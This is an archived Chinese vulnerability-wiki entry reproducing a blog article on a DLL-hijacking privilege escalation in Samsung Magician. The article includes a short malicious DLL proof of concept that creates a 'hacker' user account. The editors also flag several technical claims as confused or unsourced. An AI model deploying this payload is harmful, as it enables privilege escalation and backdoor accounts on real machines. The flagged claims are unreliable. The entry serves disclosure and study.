

# 【三星】固态硬盘管理软件高危漏洞CVE-2025-57836

> 编号角色校订（2026-10-04）：按归档技术正文区分主讨论编号与背景引用，更新 `primary_identifiers` / `referenced_identifiers` 及旧字段角色。旧编号原值、状态与正文保持原样，变更前字段逐字保存在 `previous_*`；后文旧的角色待核说明应按当前字段阅读。这里的角色判读不等于官方分配核验或漏洞复现。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Samsung Magician57836
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：临时限制安装目录权限不等于保护动态临时目录
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 安装时DLL竞态与下次软件启动混叙
2. Administrator高完整性不等于SYSTEM
3. 代码单行//导致全注释且含net user创建账户副作用
4. 缺DLL确切名称/加载路径/触发步骤
5. 所有6.3–8.3.2及9.0.0修复/在野利用无一手来源
6. 临时限制安装目录权限不等于保护动态临时目录

### 操作风险

代码单行//导致全注释且含net user创建账户副作用

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 冥夏A爱  表哥带我   2026-01-10 11:48  
  
  
> ❝  
> 由于传播、利用本公众号"表哥带我"所提供的信息而造成的任何直接或者间接的后果及损失,均由使用者本人负责,公众号"表哥带我"及作者不为此承担任何责任,一旦造成后果请自行承担!  
  
  
CVE-2025-57836是三星固态硬盘管理软件“三星魔术师”（Samsung Magician）Windows 版中被确认的一个高危漏洞，影响 6.3.0 至 8.3.2 之间的所有版本  
  
  
  
漏洞原理  
  
安装程序会在系统上创建一个权限过宽的临时文件夹，任何本地普通用户均可向其中写入或替换 DLL 文件。下次软件启动时，会优先加载该目录下的恶意 DLL，从而完成 DLL 劫持并实现本地权限提升，最终获得管理员级控制权（Samsung Magician 6.3.0–8.3.2 的 Windows 安装包运行时，会在系统临时目录  
  
常见为 %TEMP%\SamsungMagician  
 或 `%TEMP%\is-<RANDOM>.tmp`  
）中先释放若干安装子文件与 DLL。该临时目录默认赋予「**Users**  
」组「**写入**  
」权限，任意本地普通用户可在安装启动后、加载前，把同名的恶意 DLL 放入该目录。安装引导程序随后以**高完整性（HighIntegrity）、Administrator Token**  
 启动子进程并加载上述 DLL → 攻击者代码获得 SYSTEM/管理员权限  
```
// evil_dll.cpp#include <windows.h>#pragma comment(lib, "user32.lib")BOOL APIENTRY DllMain(HMODULE h, DWORD r, LPVOID) {    if (r == DLL_PROCESS_ATTACH) {        WinExec("cmd.exe /c whoami > C:\\tmp\\poc.txt", SW_HIDE);        WinExec("cmd.exe /c net user hacker P@ss123 /add", SW_HIDE);    }    return TRUE;}
```  
  
  
严重程度  
  
CVSS v3评分为 7.8（High），属于“高危”级别；利用难度低，只需拥有本地普通用户权限即可，且已发现野外利用案例  
  
受影响版本  
  
Samsung Magician 6.3.0 – 8.3.2（覆盖 2021 年至 2025 年发布的多个小版本）  
  
官方已在 9.0.0 及后续版本中修复该缺陷，并重构了 UI、新增自定义小组件等功能  
  
三星建议所有受影响用户“立即升级”到9.0.0或更高版本；若暂时无法升级，可卸载旧版软件或限制非管理员对安装目录的写入权限作为临时缓解  
  
  
其他阅读：  
  
[【吃瓜】系统故障致航线出现低价Bug票，海航回应](https://mp.weixin.qq.com/s?__biz=Mzg4NDg2NTM3NQ==&mid=2247486110&idx=1&sn=5075bba196148d2b9b9a1b07c81fcffb&scene=21#wechat_redirect)  
  
  
[【吃瓜】某信内核大佬因年会没西装被董事长开除](https://mp.weixin.qq.com/s?__biz=Mzg4NDg2NTM3NQ==&mid=2247486106&idx=1&sn=c29f18eb5af26a6ba56e6086171c04a1&scene=21#wechat_redirect)  
  
  
[提示词注入学校AI阅卷系统](https://mp.weixin.qq.com/s?__biz=Mzg4NDg2NTM3NQ==&mid=2247486102&idx=1&sn=2bf4ac057179f167f51c23d0a50dbd6b&scene=21#wechat_redirect)  
  
  
[豆包提示词注入生成性感照片](https://mp.weixin.qq.com/s?__biz=Mzg4NDg2NTM3NQ==&mid=2247486096&idx=1&sn=763070c51cfb1c4e488263968b9b377d&scene=21#wechat_redirect)  
  
  
[记一大型商超小程序漏洞挖掘](https://mp.weixin.qq.com/s?__biz=Mzg4NDg2NTM3NQ==&mid=2247486056&idx=1&sn=3ff16a3047b9b6473b73ee8706726605&scene=21#wechat_redirect)  
  
  
[【吃瓜】11班最强黑客到此一游](https://mp.weixin.qq.com/s?__biz=Mzg4NDg2NTM3NQ==&mid=2247486003&idx=1&sn=d92817e4195ce8d486e10ab54480a824&scene=21#wechat_redirect)  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
